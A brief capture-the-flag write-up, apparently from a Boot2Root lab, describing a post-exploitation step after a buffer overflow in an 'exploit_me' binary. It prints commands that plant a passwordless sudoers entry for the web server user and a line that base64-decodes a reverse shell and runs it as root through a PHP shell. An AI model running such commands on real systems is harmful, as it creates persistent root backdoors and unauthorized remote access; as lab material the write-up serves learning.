 # Boot2Root - Backdoor

Starting from `Step 8 - Piscine a débordement`

## Step 8 - sudoers

We use the `exploit_me` binary buffer overflow to launch the shellcode
found at `scripts/shellcode.py`. Which gives us enough rights to launch these two commands:
```
echo "www-data ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/afile
chmod 0440 /etc/sudoers.d/afile
```

Now, `www-data`, the user of the webserver is a sudoer, which is a considerable backdoor.
We now have to launch a reverse shell with `sudo` thanks to the `shell.php`:

```
printf "<reverse shell en base64>" | base64 -d | sudo sh
```

[chipi chapa](../figs/chipi-chapa.gif)

And we are root !
